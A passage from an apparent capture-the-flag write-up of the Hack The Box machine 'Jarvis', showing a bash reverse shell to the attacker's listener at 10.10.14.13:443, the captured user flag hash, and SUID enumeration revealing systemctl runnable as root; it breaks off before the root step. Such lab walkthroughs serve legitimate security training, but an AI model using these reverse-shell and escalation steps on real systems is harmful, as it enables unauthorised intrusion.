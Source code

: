 However, we can't get any output from this terminal.<br>
So get another reverse shell as a user "pepper".<br>
To launch a netcat listener and execute following command as a user "pepper".
{% highlight shell %}
pepper@jarvis:/home$ bash -i >& /dev/tcp/10.10.14.13/443 0>&1
bash -i >& /dev/tcp/10.10.14.13/443 0>&1

{% endhighlight %}
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.143] 55322
pepper@jarvis:/home$ id
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/home$ 
{% endhighlight %}

user.txt in in the directory "/home/pepper".
{% highlight shell %}
pepper@jarvis:~$ ls -l
ls -l
total 12
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-rw-r--r-- 1 pepper pepper  114 Nov  9 10:18 arnotic.service
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
pepper@jarvis:~$ cat user.txt
cat user.txt
2afa36c4f05b37b34259c93551f5c44f
pepper@jarvis:~$
{% endhighlight %}

### 3. Getting Root

As always, check SUID binary.<br>
The interesting thing is that user "pepper" can run "systemctl" as root.
{% highlight shell %}
pepper@jarvis:~$ find / -perm -4000 -exec ls -al {} \; 2>/dev/null
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
{% endhighlight %}
